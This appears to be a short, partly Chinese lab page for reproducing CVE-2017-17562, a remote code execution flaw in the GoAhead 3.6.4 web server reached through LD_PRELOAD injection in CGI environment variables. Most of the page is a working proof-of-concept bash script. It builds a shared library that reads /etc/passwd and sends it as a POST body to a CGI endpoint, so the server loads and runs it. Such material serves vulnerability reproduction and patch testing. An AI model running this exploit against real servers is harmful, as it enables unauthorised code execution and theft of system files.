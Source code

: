 ## CVE-2017-17562 - LD_PRELOAD cgi env 注入漏洞

测试镜像

* src/goahead/3.6.4/

参考链接

* [REMOTE LD_PRELOAD EXPLOITATION](https://www.elttam.com.au/blog/goahead/)

Poc 

```
#!/bin/bash

cat > payload.c << EOF
void __attribute__ ((constructor)) setup ()
{
	unsetenv("LD_PRELOAD");
	
    system("cp /etc/passwd /tmp");
    write(1, "Hello: World!\n", 14);
}
EOF

gcc -fPIC -shared payload.c -o payload.so

curl -i -X POST --data-binary @payload.so "http://127.0.0.1/cgi-bin/cgitest?LD_PRELOAD=/proc/self/fd/0"
```


